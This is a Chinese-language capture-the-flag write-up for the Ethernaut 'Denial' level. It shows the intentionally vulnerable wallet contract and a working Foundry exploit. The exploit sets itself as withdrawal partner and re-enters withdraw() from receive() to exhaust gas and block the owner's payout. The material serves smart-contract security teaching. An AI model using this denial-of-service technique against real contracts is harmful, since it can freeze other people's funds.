 # Level 20 - Denial
## 題目
[Denial](https://ethernaut.openzeppelin.com/level/0x2427aF06f748A6adb651aCaB0cA8FbC7EaF802e6)

### 通關條件
這是一個簡單的錢包，隨著時間的推移，資金會逐漸流失。您可以透過成為提款合夥人慢慢提款。
如果您可以在所有者調用時拒絕所有者提取資金 `withdraw()`（同時合約仍然有資金，並且交易的 Gas 量為 1M 或更少），您將贏得此級別。
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
## 解題
這一題也是要讓別人提款失敗，跟 [Level 9 - King](https://hackmd.io/@D13/ethernaut9) 一樣，也就是 DoS 這個合約。
合約中有一個提款的 function `withdraw()`，他會把款項轉給 partner 跟 owner，然後第 10 行可以將 partner 改成自己。
接著我們在自己的合約中設計 `receive()` 會再次呼叫關卡的 `withdraw()`，導致提款功能不能繼續下去；owner 就無法領到錢，所以這題的攻擊思路就是：
1. 設計 `receive()` 中重新呼叫關卡的 `withdraw()`
2. 呼叫關卡的 `setWithdrawPartner(address _partner)` 將 `partner` 改為自己
3. 呼叫關卡的 `withdraw()`，成功 DoS
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/20_Denial.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();
        DenialAttack denialAttack = new DenialAttack();
        denialAttack.attack();
        vm.stopBroadcast();
    }
}

contract DenialAttack {
    Denial level20 = Denial(payable(your_challenge_address));

    function attack() public {
        level20.setWithdrawPartner(address(this));
    }

    receive() external payable {
        level20.withdraw();
    }
}
```
